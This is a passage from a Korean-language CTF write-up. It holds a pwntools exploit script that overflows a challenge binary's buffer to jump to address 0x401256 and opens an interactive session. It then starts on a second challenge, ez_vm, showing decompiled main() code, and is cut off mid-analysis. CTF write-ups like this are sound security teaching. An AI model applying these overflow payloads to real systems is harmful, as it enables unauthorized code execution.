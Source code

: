 풀이 코드는 다음과 같습니다.

exploit.py

```py
#!/usr/bin/env python3
import sys, os
from pwn import *

TARGET= "./chall"
elf = ELF(TARGET)
HOST, PORT = 'localhost 11115'.split(' ')


def exploit(p):
    p.recvuntil(b"input")
    p.send(b"12\t"+b"A"*101 + p64(0x401256))
    p.interactive()
    return

if __name__ == "__main__":
    p = remote(HOST, PORT)
    exploit(p)
    exit(0)```
```

#### ez_vm

main함수의 소스코드는 다음과 같습니다. buf에 opcode를 0x100 바이트 입력을 받고 sub_401215를 실행합니다. 4011A5나 4011EC같은 경우 그냥 init 함수들입니다.
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  char s[8]; // [rsp+108h] [rbp-8h] BYREF

  sub_4011A5(a1, a2, a3);
  memset(s, 0, sizeof(s));
  sub_4011EC(&unk_404080);
  puts("opcode: ");
  memset(buf, 0, 0x100uLL);
  dword_404074 = 0;
  read(0, buf, 0x100uLL);
  while ( buf[dword_404074] )
  {
    sub_401215(&unk_404080, s, &buf[dword_404074]);
    dword_404074 += 8;
  }
  return 0LL;
}
```

sub_401215 이 함수를 살펴봅시다.
